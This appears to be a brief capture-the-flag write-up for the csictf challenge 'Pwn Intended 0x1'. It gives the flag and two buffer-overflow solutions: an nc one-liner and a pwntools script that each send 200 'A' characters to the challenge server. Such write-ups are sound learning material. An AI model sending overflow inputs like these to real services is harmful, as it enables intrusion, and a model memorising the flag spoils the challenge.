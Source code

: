 # Pwn Intended 0x1
Smash the keyboard.

**csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}**

## Scripting it
I guess if you really want to, you could...

```
python -c 'print "A" * 200' | nc chall.csivit.com 30001
```

## Pwntools
Ok this is pushing it a bit

```python
from pwn import *

p = remote('chall.csivit.com', 30001)

p.sendline('A' * 200)

print(p.clean().decode())
```